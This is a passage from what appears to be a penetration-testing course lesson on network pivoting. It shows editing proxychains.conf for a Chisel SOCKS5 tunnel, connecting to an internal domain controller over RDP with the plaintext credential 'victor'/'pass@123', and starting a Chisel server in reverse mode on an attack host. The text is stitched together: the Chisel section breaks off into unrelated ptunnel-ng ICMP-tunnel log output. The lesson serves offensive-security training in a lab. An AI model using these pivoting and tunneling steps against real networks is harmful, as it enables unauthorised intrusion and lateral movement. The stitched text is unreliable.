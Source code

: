 As you can see in the above output, the Chisel client has created a TCP/UDP tunnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080. Now we can modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

#### Editing & Confirming proxychains.conf

We can use any text editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

```shell
tail -f /etc/proxychains.conf

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080

```

Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

#### Pivoting to the DC

```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

```

* * *

## Chisel Reverse Pivot

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

#### Starting the Chisel Server on our Attack Host

```shell
sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%